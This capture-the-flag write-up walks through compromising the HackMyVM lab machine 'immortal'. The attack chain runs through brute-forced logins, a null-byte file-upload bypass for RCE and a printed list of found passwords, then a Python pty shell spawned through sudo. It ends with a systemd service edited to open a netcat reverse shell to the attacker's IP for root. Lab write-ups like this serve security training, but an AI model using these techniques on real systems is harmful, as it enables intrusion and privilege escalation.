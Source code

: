# immortal - A HackMyVM Machine

MACHINE IP: 192.168.1.14

HOST NAME: immortal.hmv

Potential usernames: David, Drake, found on ftp.

So the password of the login page on port 80 is **PASSWORD**, found by bruteforcing.

Risky Functionality of file upload found on: ***http://immortal.hmv/upload_an_incredible_message.php***

Now, it seems that a lot of files are blacklisted on the website. But using a tool [fuxploider](https://github.com/almandin/fuxploider) I managed to find that writing php code in this particular file format
***file_upload.gif%00.phtml*** allowed us to gain RCE.

The user flag is located at */home/drake* -> **FLAGHERE**

/etc/crontab contains a cron job which is flagged as a PE vector by linpeas.sh. Let's check it out.

On re-analysing the linpeas.sh scan, I found a suspicious file hidden in /home/drake/.../pass.txt
The file contents:
```
netflix : drake123
amazon : 123drake
shelldred : shell123dred (f4ns0nly)
system : kevcjnsgii
bank : myfavouritebank
nintendo : 123456
```

So, I assume we can use these credentials to bruteforce the password to drake. The password is **PASSWORD**.

On running sudo -l
```bash
Matching Defaults entries for drake on Immortal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User drake may run the following commands on Immortal:
    (eric) NOPASSWD: /usr/bin/python3 /opt/immortal.py
```

So I modified /opt/immortal.py to spawn a shell. Since this can be run as root, we can get a root shell, which didnt end up working.

Because, the shell that I have is very buggy, I logged in as drake using ssh.

Now in the output of sudo -l we can see that we can run a command as the user eric.

So let's use this particular command to do so:
```bash
sudo -u eric /usr/bin/python3 /opt/immortal.py
```

I modified the python script to include a shell payload as follows before running the above command:
```python
import pty
a = input(str("Do you want to be immortal: "))

if a.lower() == "yes" or a.lower() == "no":
   print("Bad answer")
else:
   print("Are you sure?")
   print("[+] Spawning shell")
   pty.spawn("/bin/bash")
```

If you run this command after making the above modification we can get a shell on the eric user.

We dont need to upgrade this shell as we're using pty.

Running sudo -l on this user we get this output:
```bash
Matching Defaults entries for eric on Immortal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eric may run the following commands on Immortal:
    (root) NOPASSWD: sudoedit /etc/systemd/system/immortal.service
    (root) NOPASSWD: /usr/bin/systemctl start immortal.service
    (root) NOPASSWD: /usr/bin/systemctl stop immortal.service
    (root) NOPASSWD: /usr/bin/systemctl enable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl disable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl daemon-reload
```

I can see the sudoedit command which can be executed as root. So maybe we can modify that file in order to gain a root shell on the machine.
Change the contents of /etc/systemd/system/immortal.service

```bash
[Unit]
Description=Immortal Service
After=network.target

[Service]
Type=oneshot
ExecStart=/bin/bash -c 'exec nc 192.168.1.10 5555 -e /bin/sh'

[Install]
WantedBy=multi-user.target
```

Start a listener on the attacker machine, on port 5555 and start the service after this. We will obtain a root shell. Get the root flag.

